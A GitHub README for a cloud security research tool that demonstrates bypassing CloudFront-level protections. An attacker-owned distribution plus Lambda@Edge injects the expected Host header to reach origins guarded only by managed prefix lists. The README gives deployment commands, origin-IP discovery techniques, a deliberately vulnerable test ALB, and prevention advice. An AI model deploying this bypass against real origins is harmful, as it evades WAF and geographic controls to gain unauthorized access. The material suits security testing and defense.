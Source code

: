 # CloudFront Prefix List Bypass

A cloud security research tool demonstrating **CloudFront bypass**. It's designed to test AWS architectures that rely solely on **managed prefix list** for protection *without* properly implementing [origin cloaking](https://aws.amazon.com/developer/application-security-performance/articles/origin-cloaking).

## Overview

**Amazon CloudFront** - AWS Content Delivery Network (CDN) service - serves as entry point to web applications, where *security controls* such as **Web Application Firewalls** are typically implemented. Some organizations restrict access to **public origins** (*e.g.: Application Load Balancers*) using [Amazon Managed Prefix Lists](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/LocationsOfEdgeServers.html#managed-prefix-list), assuming that limiting access to CloudFront IPs via *Security Groups* provides a sufficient protection.

This tool demonstrates why this approach may be insufficient without additional security measures. **Since CloudFront IP addresses are shared across all AWS accounts**, attackers could use their own *Distribution* with a custom DNS record to directly access the origin. By leveraging *Lambda@Edge* to inject the expected **Host header**—matching the target website's virtual host and TLS certificate—they can **bypass CDN-level security controls** (e.g., AWS WAF or geographic restrictions).

![CloudFront Animation](cf-bypass.gif)

## Quick Start

The commands below will help you set up the AWS attacker account with:
- A **Lambda** that modifies the *host-header* in the **N. Virginia** region, along with the IAM role and permissions required for [edge functions](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-at-the-edge.html)
- A CloudFront Distribution to deploy **for each target origin** you want to access (using different *stack names*).

### Template Parameters

`attacker-cf-distro.yml` accepts the following parameters as input values:
- **HostHeader**: The *website DNS name* expected by the origin
- **OriginDomain**: A *custom DNS record* pointing to the origin
- **Protocol** (*Optional*): The *protocol* to use for origin connections
  - Default: [match-viewer](https://docs.aws.amazon.com/it_it/AWSCloudFormation/latest/UserGuide/aws-properties-cloudfront-distribution-customoriginconfig.html#cfn-cloudfront-distribution-customoriginconfig-originprotocolpolicy)
  - Allowed values:
    - http-only
    - https-only
    - match-viewer
- **AllowedCIDR** (*Optional*): A *CIDR range* allowed via AWS WAF to access the distribution.
    - Default: "" (all access allowed, no WAF is deployed)

### Deployment Steps

Install and configure **AWS CLI** on a Linux environment as prerequisite (launch the following commands with the proper *--profile* if needed) or manually upload the template using **AWS CloudFormation** Console.

1. Clone the repository

    ```bash
    git clone https://github.com/f-lucini/cloudfront-prefix-list-bypass.git
    cd cloudfront-prefix-list-bypass
    ```

2. Setup Lambda@Edge (first time only)
    ```bash
    aws cloudformation deploy \
        --template-file attacker-lambda-setup.yml \
        --stack-name sethost-lambda --region us-east-1
    ```

3. Deploy the attacker's distribution

    ```bash
    # Set the required variables
    header="example.domain" # The DNS name expected by the website
    target="record.custom" # The origin address (see next section for details)

    # In this example only your IP can access the distribution
    # (remove AllowedCIDR parameter to allow everyone to connect)
    aws cloudformation deploy \
        --template-file attacker-cf-distro.yml \
        --stack-name cf-bypass \
        --parameter-overrides \
            HostHeader=$header \
            OriginDomain=$target \
            AllowedCIDR=$(curl -s http://checkip.amazonaws.com/)/32 \
        --region us-east-1

    # Get the distribution domain name
    distribution=$(aws cloudformation describe-stacks \
        --stack-name cf-bypass \
        --region us-east-1 \
        --query 'Stacks[0].Outputs[0].OutputValue' \
        --output json | sed 's/\"//g')

    echo "Your distribution domain is: $distribution"
    ```

**Use the new distribution to access the origin** and bypass security settings on the original CDN:
- By default, the *Protocol* (HTTP or HTTPS) used to access the distribution is **the same as that used to connect to the origin** website. 
- Due to CloudFront’s certificate validation process for TLS origins—which relies on the Host header—the *OriginDomain* **does not need to match the domain name on the certificate**.
- This could be useful to target HTTPS since **discovering an origin's IP address could be easier than finding its DNS name** (i.e., EC2 load balancers contain random strings).

## Technical Details

### Find Origin Address

The techniques described in this section for uncovering the origin server address are based on methods detailed in [this article](https://infosecwriteups.com/finding-the-origin-ip-behind-cdns-37cd18d5275).

Several tools and techniques can be used:
- Tools like [CloakQuest3r](https://github.com/spyboy-productions/CloakQuest3r) or [SecurityTrails](https://securitytrails.com/) can:
  - Find misconfigured old records using **Subdomain scanning**
  - Retrieve **DNS historical values** from before CDN deployment
- Services like [Censys](https://search.censys.io/) and [CloudFlair](https://github.com/christophetd/CloudFlair) can be used to*:
  - **Scan the entire public internet** address space
  - Match IPs using **identical SSL certificates**
  - Identify origins by **excluding CloudFront IPs**
  
- Other techniques include:
  - [Shodan favicon map](https://faviconmap.shodan.io) for matching websites with **identical icons***
  - [WordPress pingback](https://www.invicti.com/blog/web-security/xml-rpc-protocol-ip-disclosure-attacks/) feature to log origin for **public EC2** instances

**assuming the origin was scanned before CloudFront prefix-list is applied*

### Using Origin IP

After discovering the origin IP address, CloudFront will require an **origin domain name**. Here are a few ways to get one:

1. Use DNS reverse lookup: `dig -x <IP>`
2. Use the standard [DNS string for EC2](https://www.reddit.com/r/aws/comments/6bple0/comment/dhokpps/) origins
3. Register a record on a custom domain (e.g., [no-ip](https://my.noip.com/dynamic-dns) offers one free subdomain)

>**Note:**
>When using an **HTTPS origin**, you might expect certificate validation errors since the certificate won't match the specified domain name. However, **CloudFront accepts the connection** because it validates using the [Host header](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/using-https-cloudfront-to-custom-origin.html#using-https-cloudfront-to-origin-certificate). While the Host header is *read-only* in CloudFront's **viewer request**, it can be modified in the [origin request](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/edge-function-restrictions-all.html#function-restrictions-read-only-headers)

### Prevention Guidelines
To protect against this bypass technique, implement origin cloaking effectively using:

- [VPC origins](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/private-content-vpc-origins.html) to prevent public access over the internet

- [Custom header validation](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/restrict-access-to-load-balancer.html) for public origins like ALBs

## Origin Example

This repository includes an **example of a vulnerable Application Load Balancer (ALB)** for testing purposes. The ALB is configured with these security controls:
- A listener that blocks requests unless the host header is *example.domain*
- Security group rules that only allow traffic from CloudFront's prefix list (for N. Virginia region)

```bash
# Deploy the vulnerable ALB
aws cloudformation deploy \
    --template-file vulnerable-origin-example.yml \
    --stack-name vulnerable-origin \
    --region us-east-1

# Get the ALB's DNS name
origin_dns=$(aws cloudformation describe-stacks \
    --stack-name vulnerable-origin \
    --region us-east-1 \
    --query 'Stacks[0].Outputs[0].OutputValue' \
    --output json | sed 's/\"//g')

# Simulate origin discovery through DNS resolution
origin_ip=$(echo $origin_dns | xargs -l dig +short | tail -1)

# Generate EC2 DNS name for us-east-1 region
target=$(echo ec2-$origin_ip | tr . - | xargs -I % echo %.compute-1.amazonaws.com)

# Set the host header to the required value
header="example.domain"
```

Deploy the attacker distribution as described in the *Quick Start* section and **connect to it using HTTP**.

To test instead the *HTTPS behaviour*, you can use any public website's IP address, for example:
```bash
header="www.google.com"
ip=$(dig +short $header | tail -1)
target=$(dig -x $ip +short | tail -1 | sed 's/\.$//')
```

## Cleanup

1. Remove the attacker's CloudFront distribution using the chosen **stack-name**.

    ```bash
    aws cloudformation delete-stack --stack-name cf-bypass --region us-east-1
    ```

2. If you deployed the test ALB, remove it to avoid ongoing costs:

    ```bash
    aws cloudformation delete-stack --stack-name vulnerable-origin --region us-east-1
    ```

3. (*Optional*) Clean up the Lambda@Edge infrastructure if you no longer need it.

    **Note**: CloudFront needs several hours to [delete edge function replicas](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-edge-delete-replicas.html) of step 1. Wait before running this command, or it may fail silently (but you won't incur costs if the lambda is not executed).

    ```bash
    # Wait for function replicas deletion or stack will not be removed
    aws cloudformation delete-stack --stack-name sethost-lambda --region us-east-1
    ```
